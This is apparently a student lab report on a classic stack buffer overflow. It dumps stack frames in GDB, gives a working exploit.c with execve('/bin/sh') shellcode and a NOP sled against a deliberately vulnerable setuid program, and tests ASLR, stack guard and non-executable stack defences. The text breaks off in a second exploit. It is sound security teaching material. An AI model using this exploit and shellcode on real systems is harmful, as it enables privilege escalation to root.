










# Lab 4 Report

- [Lab 4 Report](#lab-4-report)
  - [Preliminary Steps](#preliminary-steps)
    - [Disabling Address Space Layout Randomization](#disabling-address-space-layout-randomization)
    - [The Vulnerable Program](#the-vulnerable-program)
    - [Viewing the Contents of a Stack Frame](#viewing-the-contents-of-a-stack-frame)
    - [Adding Breakpoints and Dumping the Stack Frames](#adding-breakpoints-and-dumping-the-stack-frames)
    - [The `main()` Function Stack Frame Contents](#the-main-function-stack-frame-contents)
    - [The `bof()` Function Stack Frame Contents](#the-bof-function-stack-frame-contents)
  - [Performing the Buffer Overflow Attack](#performing-the-buffer-overflow-attack)
    - [The Desire Stack Contents After the Buffer Overflow Attack](#the-desire-stack-contents-after-the-buffer-overflow-attack)
    - [The Proper Offsets in `exploit.c`](#the-proper-offsets-in-exploitc)
    - [Running the Vulnerable Program](#running-the-vulnerable-program)
  - [Buffer Overflow Protections](#buffer-overflow-protections)
    - [Address Space Layout Randomization](#address-space-layout-randomization)
    - [GCC Stack Guard](#gcc-stack-guard)
    - [Disabling Executable Instructions in the Stack](#disabling-executable-instructions-in-the-stack)
  - [Extra Credit Buffer Overflow](#extra-credit-buffer-overflow)

## Preliminary Steps

### Disabling Address Space Layout Randomization

Prior to undertaking the steps in this lab, it was necessary to disable Address Space Layout Randomization with the command

```shell
sudo sysctl -w kernel.randomize_va_space=0
```



### The Vulnerable Program

The following program has a vulnerability for buffer overflow because of the unsafe use of `strcpy(3)`

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[12];

    // The following statement has a buffer overflow vulnerability
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```

This is the program I will be examining over the course of this lab.

### Viewing the Contents of a Stack Frame

It is possible to dump the contents of a process's memory footprint to a binary file with GDB. Run the GDB command

```shell
dump binary memory func.stack $esp $ebp+8
```

Note that the end address is exclusive, so 8 bytes are added to include the value of `$esp`, as well as the 2 words immediately preceding it (the return address).

Then the contents of that file may be viewed in an external hexdump utility as follows

```shell
xxd -o 0xbfffe760 -c4 -g4 -e main.stack | tac | head
```

where `0xbfffe76` is the value of `$esp` when the program execution is paused in the `main()` function. Note the use of `tac` to reverse the lines of the hexdump - this shows the stack contents top-down to match the mental model of the physical stack layout.

Also note that the `-o` offset option is relatively new in `xxd`, so the memory dump file must be moved to a newer Linux OS before this command can be run.

### Adding Breakpoints and Dumping the Stack Frames

First, compile the program

```shell
$ gcc -z execstack -fno-stack-protector -g -o stack1_dbg vulnerable_stack_1.c
```

and run it with `gdb`

```shell
$ gdb stack1_dbg
```

then add breakpoints on the `main()` and `bof()` functions and run with the `badfile` commandline argument

```shell
(gdb) break main
(gdb) break bof
(gdb) run badfile
```


We then want to access and dump the stack frame for the `main()` function.

```shell
(gdb) info frame
(gdb) x $esp
(gdb) x $ebp
(gdb) info args
(gdb) x &argc
(gdb) x &argv
(gdb) dump binary memory main.stack $esp $ebp+16
```


Then we continue to the next breakpoint and do the same for the `bof()` function.

```shell
(gdb) continue
(gdb) info frame
(gdb) x $esp
(gdb) x $ebp
(gdb) x &str
(gdb) dump binary memory bof.stack $esp $ebp+12
```


### The `main()` Function Stack Frame Contents

The `main()` function's stack frame is quite large, so only a portion of it is shown below.

```shell
$ xxd -o 0xbfffe760 -c4 -g4 -e main.stack | tac | head
bfffe994: bfffea24  $...
bfffe990: 00000002  ....
bfffe98c: b7e36533  3e..
bfffe988: 00000000  ....
bfffe984: 00000000  ....
bfffe980: 08048520   ...
bfffe97c: b7fc4ff4  .O..
bfffe978: 08048529  )...
bfffe974: 00000000  ....
bfffe970: b7fed230  0...
```

We can interpret this hexdump with the following table

| address      | value        | meaning         |
|--------------|--------------|-----------------|
| `0xbfffe994` | `0xbfffea24` | argument `argv` |
| `0xbfffe990` | `0x00000002` | argument `argc` |
| `0xbfffe98c` | `0xb7e36533` | return address  |
| `0xbfffe988` | `0x00000000` | base pointer    |
| ...          | ...          | ...             |
| `0xbfffe97c` | `0xb7fc4ff4` | local `badfile` |
| ...          | ...          | ...             |
| `0xbfffe777` | ...          | local `str`     |
| ...          | ...          | ...             |
| `0xbfffe760` | `0xb7fde612` | stack pointer   |

### The `bof()` Function Stack Frame Contents

The contents of the `bof()` function's stack frame are shown below.

```shell
$ xxd -o 0xbfffe730 -c 4 -g 4 -e bof.stack | tac
bfffe760: bfffe777  w...
bfffe75c: 080484ff  ....
bfffe758: bfffe988  ....
bfffe754: 00000000  ....
bfffe750: 00000000  ....
bfffe74c: b7fc4ff4  .O..
bfffe748: 0804b008  ....
bfffe744: b7ff2660  `&..
bfffe740: bfffe988  ....
bfffe73c: b7e1c900  ....
bfffe738: 00000000  ....
bfffe734: b7fc4ff4  .O..
bfffe730: b7fc4ff4  .O..
```

This can be interpreted as

| address      | value        | meaning        |
|--------------|--------------|----------------|
| `0xbfffe760` | `0xbfffe777` | argument `str` |
| `0xbfffe75c` | `0x080484ff` | return address |
| `0xbfffe758` | `0xbfffe988` | base pointer   |
| ...          | ...          | ...            |
| `0xbfffe744` | `0xb7ff2660` | local `buffer` |
| ...          | ...          | ...            |
| `0xbfffe730` | `0xb7fc4ff4` | stack pointer  |

Note that `0xbfffe758` and `0xbfffe744` are 12 bytes apart; coincidentally, that is the length of the `buffer` variable.

## Performing the Buffer Overflow Attack

### The Desire Stack Contents After the Buffer Overflow Attack

We desire the following contents of the stack in order to execute our shell code.

| address      | value        | meaning        |
|--------------|--------------|----------------|
| `0xbfffe949` | `0x6850c031` | upper end of `shellcode` |
| `0xbfffe931` | `0x0bb09980` | lower end of `shellcode` |
| ...          | `NOP`        | ...            |
| `0xbfffe75c` | `0xbfffe75f` | return address |
| `0xbfffe758` | `NOP`        | base pointer   |
| ...          | `NOP`        | ...            |
| `0xbfffe744` | `NOP`        | local `buffer` |
| ...          | ...          | ...            |
| `0xbfffe730` | `0xb7fc4ff4` | stack pointer  |

Notice that the return address is *not* the address of the beginning of the shell code; it's the next 2 words after the return address in memory. This is because execution the `NOP` instructions has no effect, so we do not need to hit the beginning of the shell code exactly.

### The Proper Offsets in `exploit.c`

This means we need to modify the return address located at `0xbfffe75c` to point to the first instruction in the double word located at `0xbfffe931`.
We can do this by setting the return address to point to any of the `NOP` instructions before the shell code begins.

To accomplish this, we use the following program to create the binary file to overflow the buffer with.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
    "\x31\xc0"      // xorl    %eax, %eax
    "\x50"          // pushl   %eax
    "\x68""//sh"    // pushl   $0x68732f2f
    "\x68""/bin"    // pushl   $0x6e69622f
    "\x89\xe3"      // movl    %esp, %ebx
    "\x50"          // pushl   %eax
    "\x53"          // pushl   %ebx
    "\x89\xe1"      // movl    %esp, %ecx
    "\x99"          // cdq
    "\xb0\x0b"      // movb    $0x0b, %al
    "\xcd\x80"      // int     $0x80
;

void main()
{
    char buffer[517];
    FILE *badfile;

    // Initialize buffer with 0x90 (NOP instruction)
    memset(&buffer, 0x90, 517);

    printf("len shellcode: %zu\n", sizeof(shellcode));
    printf("buffer: %p\n", (void *)buffer);

    // Put the return address at the beginning of the NOP instructions, but after the return address.
    *((long *)(buffer + 0x18)) = 0xbfffe92c;

    memcpy(buffer + 517 - sizeof(shellcode), shellcode, sizeof(shellcode));

    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

Notice that the return address is located at an offset of `0x18` from the beginning of the buffer. We can can see this from observing the offset between `0xbfffe75c` and `0xbfffe744` in the stack frome of the `bof()` function.

---

If the buffer overflow is performed inside of a GDB session, it is possible to dump the contents of the stack before and after overflowing the buffer.

```shell
$ gdb stack1_dbg
(gdb) break bof
(gdb) run badfile
(gdb) dump binary memory original.stack $esp $esp + 517 + 20
(gdb) next
(gdb) dump binary memory corrupted.stack $esp $esp + 517 + 20
```

Then the two stack hexdumps can be viewed side-by-side as follows (with most of the `NOP` instructions snipped).

```shell
$ pr -m -t <(xxd -o 0xbfffe730 -c 4 -g 4 -e original.stack | tac) <(xxd -o 0xbfffe730 -c 4 -g 4 -e corrupted.stack | tac)
bfffe948:       90  .               bfffe948:       80        .
bfffe944: 90909090  ....            bfffe944: cd0bb099        ....
bfffe940: 90909090  ....            bfffe940: e1895350        PS..
bfffe93c: 90909090  ....            bfffe93c: e3896e69        in..
bfffe938: 90909090  ....            bfffe938: 622f6868        hh/b
bfffe934: 90909090  ....            bfffe934: 732f2f68        h//s
bfffe930: 90909090  ....            bfffe930: 50c03190        .1.P
bfffe92c: 90909090  ....            bfffe92c: 90909090        ....
-snip-
bfffe794: 90909090  ....            bfffe794: 90909090        ....
bfffe790: 90bfffe9  ....            bfffe790: 90909090        ....
bfffe78c: 2c909090  ...,            bfffe78c: 90909090        ....
bfffe788: 90909090  ....            bfffe788: 90909090        ....
-snip-
bfffe778: 90909090  ....            bfffe778: 90909090        ....
bfffe774: 90e1c900  ....            bfffe774: 90909090        ....
bfffe770: 00000000  ....            bfffe770: 90909090        ....
bfffe76c: 0804b008  ....            bfffe76c: 90909090        ....
bfffe768: 00000205  ....            bfffe768: 90909090        ....
bfffe764: 00000001  ....            bfffe764: 90909090        ....
bfffe760: bfffe777  w...            bfffe760: 90909090        ....
bfffe75c: 080484ff  ....            bfffe75c: bfffe92c        ,...
bfffe758: bfffe988  ....            bfffe758: 90909090        ....
bfffe754: 00000000  ....            bfffe754: 90909090        ....
bfffe750: 00000000  ....            bfffe750: 90909090        ....
bfffe74c: b7fc4ff4  .O..            bfffe74c: 90909090        ....
bfffe748: 0804b008  ....            bfffe748: 90909090        ....
bfffe744: b7ff2660  `&..            bfffe744: 90909090        ....
bfffe740: bfffe988  ....            bfffe740: bfffe988        ....
bfffe73c: b7e1c900  ....            bfffe73c: b7e1c900        ....
bfffe738: 00000000  ....            bfffe738: 00000000        ....
bfffe734: b7fc4ff4  .O..            bfffe734: bfffe777        w...
bfffe730: b7fc4ff4  .O..            bfffe730: bfffe744        D...
```

---

### Running the Vulnerable Program

The difficult part is producing the proper values in the `badfile` binary file.
The attack may be performed simply by running the `stack1` set-root-id program.


Notice that I compiled the `realuid` program before running the exploit because I had problems compiling it with `gcc` inside the new shell.

It is also possible, for debugging purposes, to run the `stack1_dbg` program instruction-by-instruction with the `stepi` GDB command.


## Buffer Overflow Protections

### Address Space Layout Randomization

First I re-enabled ASLR



Then I ran the `stack1` program in an infinite loop

```shell
sh -c "while [ 1 ]; do ./stack1; done;"
```

I ran multiple instances of this loop in parallel to decrease the amount of time it took to have a successful attack.
While the attacks where ongoing, I ran the command

```shell
watch 'dmesg | tail`
```

to view the addresses the attack was attempting, and to view the addresses where the program was segfaulting.



Before the above `while` loop succeeded, I entered the command `date "+%x %H:%M"` in the input buffer so that it would be ran as soon as the the overflow attack was successful and dropped me into the root shell.



This way I could effectively time how long it took for the attack to succeed.



As the included screenshot indicates, this attack took almost two hours to complete.
The other terminal instances running the above `while` loop succeeded far earlier, but I did not think to time them, so I cannot say for certain how long it took.

What I can say for certain is that it took at least 1410 total attempts among the three terminal instances running the `while` loop for all three to succeed.



However, note that `dmesg` is rate-limited, so a large number of segfaults were not logged.



### GCC Stack Guard

First, I disabled ASLR, then compiled the `stack1` program without the `-fno-stack-protector` flag.



As the included screenshot indicates, this overflow attack was unsuccessful, because our attempt at stack smashing was detected.

### Disabling Executable Instructions in the Stack

Again, I disabled ASLR, and compiled `stack1` with `-z noexecstack`.



As the included screenshot indicates, this overflow attack was unsuccessful, because the program was not able to execute any of the code in the stack.

## Extra Credit Buffer Overflow

The only difference is that the new return address offset for this program is `0x36`.

This can be verified by running `stack2` with GDB and viewing the address of `buffer` and `$ebp + 4`.


Then we can take this information to produce the appropriate `badfile` binary contents.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
    "\x31\xc0"      // xorl    %eax, %eax
    "\x50"          // pushl   %eax
    "\x68""//sh"    // pushl   $0x68732f2f
    "\x68""/bin"    // pushl   $0x6e69622f
